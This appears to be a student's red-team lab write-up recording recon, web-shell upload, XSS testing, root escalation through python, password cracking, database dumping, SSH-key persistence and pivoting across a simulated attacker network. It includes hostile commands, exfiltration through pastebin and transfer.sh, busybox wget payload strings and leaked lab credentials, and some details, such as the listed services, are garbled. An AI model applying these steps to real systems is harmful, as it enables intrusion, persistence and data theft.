

# Mission Steps Documented

*********************************

## Initial Set-up

SSH'd into the C2 Server to begin the mission. 

*****************************************

## Reconnaissance

### NMAP Scan for Network Enumeration

From the C2 server, initialized an NMAP scan. `nmap -sS -sV TARGETIP -p- > ./output/nmap.out`

From the output which can be seen in [nmap.out](output/nmap.out), the following information can be determined:

1. Port 22/tcp:
   1. Status: Open
   2. Service: ssh (OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0))
2. Port 80/tcp:
   1. Status: Open
   2. Service: http (OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0))
3. Port 443/tcp: 
   1. Status: Open
   2. Service: ssl/http (OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0))
4. Port 3306/tcp:
   1. Status: Closed
   2. Service: mysql
5. Port 8888/tcp:
   1. Status: Closed
   2. Service: sun-answerbook

In addition the follow information about infrastructure was noted:

1. OS: Linux
2. Hosted by AWS

### Visiting the HTTP service with a Browser

Using the ~~TOR mode~~ (initial connection was not made with TOR browser... all connections after were using TOR) of the Brave browser, connected to the targets http service to find it hosting a website. Considering that the building that I connected from is getting destroyed and it was from a dynamic IP, I'm not overtly concerned... just disappointed. Live and learn.

Website is extremely similar to the website from [before](https://github.com/Eldenwyre/probable-lamp#evaluating-the-webpage). All pages that are appearingly the same will be noted in [the section below](#pages-that-are-the-same). Any pages that have noticed differences will be noted after. It is important to note, the pages that are the same only refer to the pages when NOT LOGGED IN, this website now seems to have a functioning sign-in and sign-up unlike before.

#### Pages that are the same (without login)

For any listed here, if you want to see the previous report for reference, [go here](https://github.com/Eldenwyre/probable-lamp#evaluating-the-webpage).

1. About (aboutus.php)
2. Forum (unreg.php)
3. Contact (contact.php)
4. Message:  Still returns to Home
5. Foot Banner Links (All appear to go to the same page as previous)
   1. Contact Us
   2. Terms of Use
   3. Privacy Statement
   4. Online User

#### Home (index.php) (without login)

All appears to be the same outside of the login now being functional! This may be of use in the future. 

#### Sign-Up Page (register.php) (without login)

Now appears to be functional. I was able to make an account and successfully login on the home page after. Since this identity will be burned regardless, the information used can be found [here](output/userinfo.txt). This was for as much of my purpose as it was for yours. 

The email does not appear to recieve any email. 

#### Pages that are the same still (logged)

1. About
2. Contact
3. Foot Banner Links:
   1. Contact Us
   2. Terms of Use
   3. Privacy Statement

Note, that Message and Online User have changed, more below

#### Home (uhome.php) (logged)


Following the links on this page lead to nothing interesting

##### My Answered


Nothing interesting here.

##### My Question


Nothing interesting here.

#### Foot Banner: Online User (isuser.php)
Missing page (isuser.php)

Nothing interesting.

#### Clicking on User Name (uedit.php)

Missing page (uedit.php)

Nothing Interesting

#### Message


Interesting change now that we've logged in, we'll follow this and see where it goes


Searching for admin yields the following account


Opening the send message OR clicking on Administrator results in the page below


Upon sending the message this notification displays


I also sent the Max Matterson account from this qaz account, but I couldn't locate any message when logging back into the account.

#### Logout


Nothing Interesting here

### Enumerating with GoBuster

[Using this wordlist](https://raw.githubusercontent.com/3ndG4me/KaliLists/master/dirbuster/directory-list-lowercase-2.3-small.txt), GoBuster was used to scan for any potentially new directories that were not known from the previous version. This was launched from the C2 server with the following command. 

`gobuster -o output/gobuster.out -w /usr/share/wordlists/directory-list-lowercase-2.3-small.txt -U maxmatterson -P haxattax -u http://52.7.40.4/ -x .php`

This output can be found in the [gobuster.out file](output/gobuster.out)

************************************

## Weaponization

**********
I tried the same tried and true tactic from [last time](https://github.com/Eldenwyre/probable-lamp#finding-the-user-uploaded-files) despite being told it was patched in the briefing.

To test if for any whitelisting of files uploaded via sign-up, I uploaded a [showdown replay file](files/util-files/showdown.html)

It worked a little too well


This time around I attempted to use [this php shell](https://github.com/flozz/p0wny-shell)

It had not worked. The file ran but it couldn't execute

 

The same occured when checking if it was for a blacklist simple filter on kek.jpg.png.
`cd` was the only command I found that could work. kek.jpg.png was then edited to be a basic php command `<?php echo exec('ls')?>, but still no dice.

Some time passed, and I was toying with some ideas for an XSS attack to steal admin cookies or have code execution on the admins PC, just some basic testing to see if I could have it exec (which an alert was successfully execed by having a user with the "Full Name" as `<script>alert("XSS"<\script>`

This attempt was successful but at this time was not utilized further. It runs on any page where the name was visible and would likely also be able to be used with the message system: 


After recieving an alert that server resources were increased I decided I'd try again since the issue was it not being able to fork the process. It worked


### Interesting Files

#### APK in Locked Zip

Browsing into the directory above the ups directory, I saw an AppDeployment directory, this contained a single zip file. I copied the zip file to the ups directory and downloaded it through a tor connection on my browser. Opening the zip file, I see that there is a single APK. But it's password protected, tried using zip2john and running john on it but to no avail.


#### SQL file

In the db directory, which relative to ups is at `../db`, there was an [sql file](files/exfiled-files/tech_forum.sql) that may be of use in future 

> Future me: "It wasn't"

### Linpeas

Running linpeas didn't [result](files/exfiled-files/linPE) in too many of juicy things, there was a few things of note. More specifically that it liked the idea of using python:


### Snake Bite (Python Exploitation for Elevated Access)

Might as well check to see if we get free root...

<a href="https://www.youtube.com/watch?v=uocHYbEbWSE"></a>

Well, that's free root but it'd be nice to have full access through the shell. And on the first attempt too!
`python -c 'import subprocess; print(subprocess.check_output([COMMANDDATAHERE]))'` results in a root execution of the command within.

Continuing, checked out shadow with this method


Took that and ran it through john with [this password list](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt). And it cracked pretty quick.


Creds for jricho:
> User: jricho
> Pass: dreamer1

There are also bitnami credentials inside of the /home/bitnami directory that can be accessed this way


> User: bitnami?
> pass: BkmuowNTohD5

### Slithering into the mysql Server

Using the bitnami credentials I was able to access the mysql server

Access:


Database check:


Dump ([can be found here](files/exfiled-files/max.txt)):


Used [a converter shell script](files/util-files/conver.sh) from [this](/questions/489277/script-to-convert-mysql-dump-sql-file-into-format-that-can-be-imported-into-sqli) to convert the dump into a more [readable .sql format](files/max2.txt.sql).

When looking through the processed dump there were a few things that were noticed:

#### Visible Admin Credentials
The admin login credentials were visible in the user table dump: 

 (See [Admin Site View](#admin-site-view))

##### Admin Site View

With these credentials I was able to login to the site and view/access the following pages.

Everything appeared to be functionally the same from the admin standpoint outside of the new manage tab, in however it seemed primarily nonfunctional at this time. (I couldn't see the effect anywhere of any of the test forms I submitted)

While potentially useful in future, not useful for now

###### Home


###### Manage/Topic


###### Manage/Topic - Insert


###### Manage/Subtopic


###### Manage/Subtopic - Insert


###### Messages (And Everything Else)

All appeared to be the same (eg, the foot banners etc)


#### Chat Logs revealing pass

 (See)

With this password I was able to extract that [apkfile from earlier](#apk-in-locked-zip). See [below](#reversing-the-apk) for more info.

[](files/exfiled-files/anarf-signup-test.apk)
[Can be found here](files/exfiled-files/anarf-signup-test.apk)

## Reversing the APK

### Attempting to Run in A Virtual Android Device

After disconnecting the device from the internet, using android studio I attempted to run the apk after installing it with `adb install`; however, it would not function in the Nexus 5 device (using x86 most recent Android API version available)

### Locating C2

When using JADX to observe the extracted APK, noticed the following IP being hardcoded to fetch what appears to be busybox, which suggests this may be their C2 Server


It's likely 3.1\*\*.\*\*4.\*\*0 is being used as (at least part of) C2

### In-depth Reversal

[Found here](#in-depth-reversal-of-apk)

## Attempting to Gain Access on New C2

### Recon 

Conducting an nmap scan from our c2 resulted in the following: 

First scan was blocked, but using -Pn on a second scan worked.


1. Port 22/tcp:
   1. Status: Open
   2. Service: ssh   OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
2. Port 6932/tcp:
   1. Status: Open
   2. Service: http    Node.js Express framework


In addition a GoBuster scan was run, which found the following 3 directories:

1. info
2. upload
3. download


### Attempting to Find Access

#### Basic Attempts

- Tried to do directory traversal through the url

#### SSH Attempt(s)

Tries using Bitnami's credentials, but needed an ssh key, may look to see if I can steal one from the public web server if cannot find way in.


#### Running with Wireshark

Ran the app while having wireshark running, did not have anything interesting occur I didn't find a single call to the c2, all were to github. This may have been in part due to some internet shenanigans from earlier (internet has been up and down all night)

#### Strings in helper.prog file that's retrieved

> 0008cea5	./busybox wget http://REDACTEDIP:6932/upload?pass=$newpass&payload=test 
	"./busybox wget http://REDACTEDIP:6932/upload?pass=\$newpass&payload=test \n"	ds

> 0008ce51	newpass='cat retpass?prepass=	"newpass='cat retpass?prepass="	ds

> 0008ce14	./busybox wget http://REDACTEDIP:6932/retpass?prepass=	"./busybox wget http://REDACTEDIP:6932/retpass?prepass="	ds

Okay, so maybe they've reused credentials on this prepass, if not, I'm going to try fuzzing it.

Credentials that were tried and failed:

1. overthehill7 (android app zip)
2. dreamer1 (jricho's pass)
3. BkmuowNTohD5 (bitnami)

Well time to start a fuzzing attempt while searching for a new method of access.

##### Brute-forcing the pass

While I was thinking of new ideas, I ran a custom py-script made for potentially discovering the password. This was not successful but was running on the my C2 whilst waiting for any new ideas for getting access. (This didn't lead anywhere, but section below was successful!) I figured it was worth a try, if C2 ended up getting blocked, I just burn the ip and get it a new one (never happened).

### Discovering a Massive Oversight

It was brought to my attention, that in my tired state I never bothered directly running the files that are fetched in the anarf-signup-text APK ([helper.prog](files/exfiled-files/helper.prog) and [busybox](files/exfiled-files/busybox))

So after loading a new VM and re-installing the anarf-signup-test.apk as well as pushing the helper.prog and busybox files to /data/local/tmp to execute them individually, the following occured: 


Taking that prepass and using it on the website gets the password needed for code execution:


Successful code execution


In addition I looked at the C2 source code which contained a link to Rick Roll saying to sing this for extra credit. Of course, I had. I'll never miss a chance to sing NGGYU. 


And checking with a quick whoami payload we can see that any payload is executed as root!


After a bit of poking around, it was found that in the /home directory there was a user named ubuntu. And I had the idea to potentially add myself to the .ssh/authorized_keys file which would allow for me to ssh into the server as ubuntu.

Checking the file I could see there was already a key in there. So careful to not mess up anyone elses connection I made sure to use `>>` when appending


I generated a new key and uploaded it to pastebin, which I then wget'd onto the server.


Then tried to append it to the keys


It had succesfully appended, but my ssh attempts were still failing.

I had been hung here for a while, but uh... it was mainly due to me forgetting to specify the user in my connection script \^\_\^; 

That being said, before I realized this issue I tried generating an rsa key and uploading/inserting in various ways. After figuring out the issue, I removed the old (unused) ssh-key insertions from authorized_keys by using sed to remove the unwanted lines

After correcting my `connectc2.sh` from 

`torify ssh REDACTEDIP -i ~/.ssh/id_rsa`

to

`torify ssh ubuntu@REDACTEDIP -i ~/.ssh/id_rsa`

I was able to successfully ssh into the server as ubuntu. While I would have prefered to do this from my C2 server and without a key tagged with Miles@fail-not, I was at least content as none of this was real identifying information and the connection was torified. 

### Quick Network Enumeration

#### General Network  Scan

Took a look at the internal network with `ip addr`


#### Scanning the Interfaces

Then scanned these interfaces with nmap

##### 10.0.0.77/24


##### 10.0.55.59/24

Couldn't scan all ports for some reason, would hang and not finish for hours. Regardless this should suffice for future


## Telnet Thievery
On the server, there was a script called `status-update.sh`


By using on online base 64-decoder I was able to decode that the credentials were:

> user: teletubby
> pass: tubby custard

#### Network Enumeration in 10.0.55.44

Ran `ip addr` to look for anything new and interesting


nmap, however, was not installed, so I wrote a small oneliner to run through and check to see if there were any new visible boxes:

`for i in {0..255} do ping -c 1 IP.GOES.HERE.$i > /dev/null; [ $? -eq 0 ] && echo "$i responded"; done`

However this was extremely slow so I looked for a faster solution online. And found [this very similar solution](https://linuxconfig.org/bash-scripts-to-scan-and-monitor-network)

```
#!/bin/bash

is_alive_ping()
{
  ping -c 1 $1 > /dev/null
  [ $? -eq 0 ] && echo Node with IP: $i is up.
}

for i in IP.GOES.HERE.{1..255} 
do
is_alive_ping $i & disown
done
```

which I modified to the onliner

` p() { ping -c 1 $1 > /dev/null; [ $? -eq 0 ] && echo Node with IP: $i is up. ; } ; for i in IP.GOES.HERE.{1..255}; do p $i & disown ; done ` 

which had some ugly output but nevertheless seemed to work until I realized it was missing some points. So, now I began to realize I'd need an nmap binary...yay. Luckily I know I can find one [here](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux)

[(Alternate direct link directly to nmap x86_64 download)](https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/nmap)

After curling it onto the box


I ran it and got the following. Nothing new, but it seems this box can't see the 10.0.55.59 box from earlier. 


### Spotting Some Savory SSH Key~~s~~

In the server, after poking around in various files I noticed that there was an ssh-key in the file `/home/ubuntu/ubuntu-management-server-key`


Which I then copy pasted into a pastebin and uploaded to the C2 server using wget from the website (in retrospect I could have done this through the ssh but I'd have had to open a new connection and it was just an oversight)


I hadn't noticed any other files that were interesting that I could easily access.  I tried the same python escalation tactic [from earlier](#snake-bite-python-exploitation-for-elevated-access) but it hadn't resulted in anything (attempted exploiting various libs for elevated privleges)

### Funny Telnet Struggles

Here's me looking like an idiot trying to close the telnet connection. Have a laugh :). Don't try working too late; otherwise, you just make dumb mistakes like these


### Realizing I extracted the key wrong

Trying to ssh into the other servers, I had a suspicion that there was something wrong with the key. As a matter of fact, it decided to not alert me that the key was in an invalid format until many minutes (maybe hours) after. 


I reconnected with the telnet connection and then proceeded to directly upload the ssh-key by curling it to transfer.sh. Then I curled it from transfer.sh onto the C2 into /home/ubuntu/.ssh as id_rsa. I then generated a public key in id_rsa.pub and fixed the permissions.

No output here but here's a snippet of the commands used.


I then successfully ssh'd into the 10.0.55.42 box as ubuntu (the other boxes failed)

## Exploring the New Box (10.0.55.42)

Interesting to note that this box has no direct connection to the internet, so any binaries or exfils will be done using scp since we have ssh access. Sadly it does not have nmap which is unfortunate. 


So, I'll get it to the box myself. To do this, I curl'd the same file from earlier and scp'd it onto the box.


### Network Enumeration

#### IP Addr


##### Nmap scanning 10.0.55.42/24


##### Nmap scanning 10.0.13.37/24


## Exploring 10.0.13.77 as jricho

By using the cracked credentials from earlier, I was able to ssh into this box as jricho. 

Once again it seemed this box had no connection to the internet. However, in /home/ubuntu there were two interesting files: 

- password-manager_linux-x86_64   
- stolen-information.zip
  
These were exfiled to the C2 server via scp must like how nmap was put onto the previous box. 

Below is the end of the pass manager getting exfiled for demonstration purposes (I had transfered the file to the 10.0.55.42 box using scp just prior to this)


The password manager ran with the following when run on the server:


Will attempt to reverse when done here or hitting a wall.

### Network Enumeration

#### IP Addr


#### Scanning Interfaces


## Reversing the Password Manager

This password manager may hold the key (literally) for me to unlock the file. 

Opening it in Ghidra and running the string analyzer allowed me to find this useful section of strings:


Noticing the recovery code option, I took a look at the recovery codes that were found in the admin messages in the db from [earlier](#slithering-into-the-mysql-server)

> Your Recovery Codes Are:     jkl345g     n84jfgj     x93mfgl     w93mnf9          Save these codes, as if you''ll need them to access your password manager if you forget your password

Running the file with the recovery option and entering all of the recovery codes got the following


And using that I was able to get the password for the stolen-information.zip


## The Stolen Info

There was a [single csv](files/exfiled-files/stolen-information/us-500-implant-collection-test.csv) in the file which when file is run on, shows that it's a zip file.


Extracting this results in 3 preview jpgs, and an index folder and a Metadata folder. The index folder (and the subfolder within) contained a lot of .iwa files. 

I could not figure how to open this. As of this moment


## Network Graph of Target



*******************

# In Depth Reversal of APK